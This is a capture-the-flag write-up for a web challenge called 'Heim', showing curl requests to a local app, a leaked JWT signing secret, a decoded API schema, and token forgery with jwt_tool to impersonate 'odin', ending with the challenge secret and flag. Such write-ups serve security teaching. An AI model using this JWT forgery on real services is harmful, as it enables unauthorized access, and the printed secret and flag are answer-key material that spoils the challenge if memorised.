



# Heim <!-- omit in toc -->

- [[1] Walkthrough](#1-walkthrough)
  - [[1.1] Initial Recon](#11-initial-recon)
  - [[1.2] Gaining Access](#12-gaining-access)
  - [[1.3] Privilege Escalation and Retrieving the Flag](#13-privilege-escalation-and-retrieving-the-flag)

# [1] Walkthrough

## [1.1] Initial Recon 

First we navigate to `localhost:8080` and are met with a home page containing an input form that prompts for a username. We will fill in a name our our choosing and click submit or make a POST request to `/auth` with `x-www-form-urlencoded` body data that includes our chosen `username` parameter. As we do so, we'll open the dev console of our browser (chrome in this case) and sniff the network traffic. After authorization, we can see Heim making a GET request to `/auth`, leaking the `jwt_secret_key` in its query parameters, before finally redirecting us and returning our `access_token`.

```bash
curl --location --request POST 'localhost:8080/auth' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'username=<redacted_username>'
```

Save the provided `access_key` and leaked `jwt_secret_key` somewhere for later.

```json
{
    "access_token": "<redacted_access_token>"
}
```

<details>
<summary>Screenshot</summary>



</details>

## [1.2] Gaining Access

Now we can make a GET request to `localhost:8080`, passing the retrieved `access_key` as a BEARER token for authorization (following the hint provided on the home page).

```bash
curl --location --request GET 'localhost:8080' \
--header 'Authorization: Bearer <redacted_access_token>'
```

We are redirected to `/heim` and receive a JSON encoded response with a `msg` attribute that contains a base64 encoded blob. Decoding the base64 encoded `msg` blob reveals a basic API schema. A useful tool for this is [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=ZXdvZ0lDQWdJbUZ3YVNJNklIc0tJQ0FnSUNBZ0lDQWlkakVpT2lCN0NpQWdJQ0FnSUNBZ0lDQWdJQ0l2WVhWMGFDSTZJSHNLSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0p3YjNOMElqb2dld29nSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNKemRXMXRZWEo1SWpvZ0lrRjFkR2h2Y21sNlpTQjViM1Z5YzJWc1ppQmhjeUJoSUZacGEybHVaeUlzQ2lBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0luTmxZM1Z5YVhSNUlqb2dJazV2Ym1VaUxBb2dJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0p3WVhKaGJXVjBaWEp6SWpvZ2V3b2dJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBaWJtRnRaU0k2SUNKMWMyVnlibUZ0WlNJc0NpQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNKeVpYRjFhWEpsWkNJNklIUnlkV1VzQ2lBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0prWlhOamNtbHdkR2x2YmlJNklDSlpiM1Z5SUZacGEybHVaeUJ1WVcxbElpd0tJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0ltbHVJam9nSW1KdlpIa2lMQW9nSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWlZMjl1ZEdWdWRDSTZJQ0p0ZFd4MGFYQmhjblF2ZUMxM2QzY3RabTl5YlMxMWNteGxibU52WkdWa0lnb2dJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJSDBLSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJSDBLSUNBZ0lDQWdJQ0FnSUNBZ2ZTd0tJQ0FnSUNBZ0lDQWdJQ0FnSWk5b1pXbHRJam9nZXdvZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSW1kbGRDSTZJSHNLSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBaWMzVnRiV0Z5ZVNJNklDSk1hWE4wSUhSb1pTQmxibVJ3YjJsdWRITWdZWFpoYVd4aFlteGxJSFJ2SUc1aGJXVmtJRlpwYTJsdVozTWlMQW9nSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNKelpXTjFjbWwwZVNJNklDSkNaV0Z5WlhKQmRYUm9JZ29nSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdmUW9nSUNBZ0lDQWdJQ0FnSUNCOUxBb2dJQ0FnSUNBZ0lDQWdJQ0FpTDJac1lXY2lPaUI3Q2lBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FpWjJWMElqb2dld29nSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNKemRXMXRZWEo1SWpvZ0lsSmxkSEpwWlhabElIUm9aU0JtYkdGbklpd0tJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FpYzJWamRYSnBkSGtpT2lBaVFtVmhjbVZ5UVhWMGFDSUtJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lIMEtJQ0FnSUNBZ0lDQWdJQ0FnZlFvZ0lDQWdJQ0FnSUgwS0lDQWdJSDBLZlE9PQ)

<details>
<summary>Screenshot</summary>

```
{
    "msg": "ewogICAgImFwaSI6IHsKICAgICAgICAidjEiOiB7CiAgICAgICAgICAgICIvYXV0aCI6IHsKICAgICAgICAgICAgICAgICJnZXQiOiB7CiAgICAgICAgICAgICAgICAgICAgInN1bW1hcnkiOiAiRGVidWdnaW5nIG1ldGhvZCBmb3IgYXV0aG9yaXphdGlvbiBwb3N0IiwKICAgICAgICAgICAgICAgICAgICAic2VjdXJpdHkiOiAiTm9uZSIsCiAgICAgICAgICAgICAgICAgICAgInBhcmFtZXRlcnMiOiB7CiAgICAgICAgICAgICAgICAgICAgICAgICJhY2Nlc3NfdG9rZW4iOiB7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICAicmVxdWlyZWQiOiB0cnVlLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgImRlc2NyaXB0aW9uIjogIkFjY2VzcyB0b2tlbiBmcm9tIHJlY2VudGx5IGF1dGhvcml6ZWQgVmlraW5nIiwKICAgICAgICAgICAgICAgICAgICAgICAgICAgICJpbiI6ICJwYXRoIiwKICAgICAgICAgICAgICAgICAgICAgICAgfSwKICAgICAgICAgICAgICAgICAgICAgICAgImp3dF9zZWNyZXRfa2V5IjogewogICAgICAgICAgICAgICAgICAgICAgICAgICAgInJlcXVpcmVkIjogZmFsc2UsCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAiZGVzY3JpcHRpb24iOiAiRGVidWdnaW5nIC0gc2hvdWxkIGJlIHJlbW92ZWQgaW4gcHJvZCBIZWltIiwKICAgICAgICAgICAgICAgICAgICAgICAgICAgICJpbiI6ICJwYXRoIgogICAgICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgfSwKICAgICAgICAgICAgICAgICJwb3N0IjogewogICAgICAgICAgICAgICAgICAgICJzdW1tYXJ5IjogIkF1dGhvcml6ZSB5b3Vyc2VsZiBhcyBhIFZpa2luZyIsCiAgICAgICAgICAgICAgICAgICAgInNlY3VyaXR5IjogIk5vbmUiLAogICAgICAgICAgICAgICAgICAgICJwYXJhbWV0ZXJzIjogewogICAgICAgICAgICAgICAgICAgICAgICAidXNlcm5hbWUiOiB7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICAicmVxdWlyZWQiOiB0cnVlLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgImRlc2NyaXB0aW9uIjogIllvdXIgVmlraW5nIG5hbWUiLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgImluIjogImJvZHkiLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgImNvbnRlbnQiOiAibXVsdGlwYXJ0L3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIKICAgICAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfSwKICAgICAgICAgICAgIi9oZWltIjogewogICAgICAgICAgICAgICAgImdldCI6IHsKICAgICAgICAgICAgICAgICAgICAic3VtbWFyeSI6ICJMaXN0IHRoZSBlbmRwb2ludHMgYXZhaWxhYmxlIHRvIG5hbWVkIFZpa2luZ3MiLAogICAgICAgICAgICAgICAgICAgICJzZWN1cml0eSI6ICJCZWFyZXJBdXRoIgogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9LAogICAgICAgICAgICAiL2ZsYWciOiB7CiAgICAgICAgICAgICAgICAiZ2V0IjogewogICAgICAgICAgICAgICAgICAgICJzdW1tYXJ5IjogIlJldHJpZXZlIHRoZSBmbGFnIiwKICAgICAgICAgICAgICAgICAgICAic2VjdXJpdHkiOiAiQmVhcmVyQXV0aCIKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfQogICAgICAgIH0KICAgIH0KfQ=="
}
```

```json
{
    "api": {
        "v1": {
            "/auth": {
                "get": {
                    "summary": "Debugging method for authorization post",
                    "security": "None",
                    "parameters": {
                        "access_token": {
                            "required": true,
                            "description": "Access token from recently authorized Viking",
                            "in": "path",
                        },
                        "jwt_secret_key": {
                            "required": false,
                            "description": "Debugging - should be removed in prod Heim",
                            "in": "path"
                        }
                    }
                },
                "post": {
                    "summary": "Authorize yourself as a Viking",
                    "security": "None",
                    "parameters": {
                        "username": {
                            "required": true,
                            "description": "Your Viking name",
                            "in": "body",
                            "content": "multipart/x-www-form-urlencoded"
                        }
                    }
                }
            },
            "/heim": {
                "get": {
                    "summary": "List the endpoints available to named Vikings",
                    "security": "BearerAuth"
                }
            },
            "/flag": {
                "get": {
                    "summary": "Retrieve the flag",
                    "security": "BearerAuth"
                }
            }
        }
    }
}
```

</details>

## [1.3] Privilege Escalation and Retrieving the Flag

Now we make a GET request to `/flag`, passing our `access_token` as a BEARER token for authorization. Unfortunately we receive an error indicating only the AllFather Odin is worthy of receiving the flag.

```bash
curl --location --request GET 'localhost:8080/flag' \
--header 'Authorization: Bearer <redacted_access_token>'
```

```json
{
    "msg": "You are not worthy. Only the AllFather may view the flag"
}
```

Knowing that it seems we need to be authorized as 'Odin' to retrieve the flag, if  now go back to step 2 and try to retrieve an access token as 'Odin' we receive an error.

```bash
curl --location --request POST 'localhost:8080/auth' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'username=odin'
```

```json
{
    "error": "You are not wise enough to be Odin"
}
```

As we cannot seem to generate a token as 'Odin', and given we have the leaked `jwt_secret_key`, we should instead tamper with our current `access_token`. Heim was misconfigured and leaked to us with the `jwt_secret_key`, the signing key for the jwt tokens the app produces. With this, we can forge entirely new keys or tamper with existing ones. A helpful tool for this is the [JSON Web Token Toolkit v2](https://github.com/ticarpi/jwt_tool/blob/master/jwt_tool.py). Using this tool, we can change the `sub` value in your `access_token` to `odin` and sign the tampered key with the `hs256` algorithm, passing the saved `jwt_secret_key` as the signing key.

```bash
python3 jwt_tool.py -S hs256 -p arottenbranchwillbefoundineverytree <redacted_access_token> -T
```
<details>
<summary>Screenshots</summary>




</details>

Now we can make another GET request to `/flag`, passing our new `access_token` identifying us as `odin` and we will receive the flag.

```bash
curl --location --request GET 'localhost:8080/flag' \
--header 'Authorization: Bearer <redacted_tampered_access_token>'
```

```json
{
    "flag": "UMASS{liveheim_laughheim_loveheim}"
}
```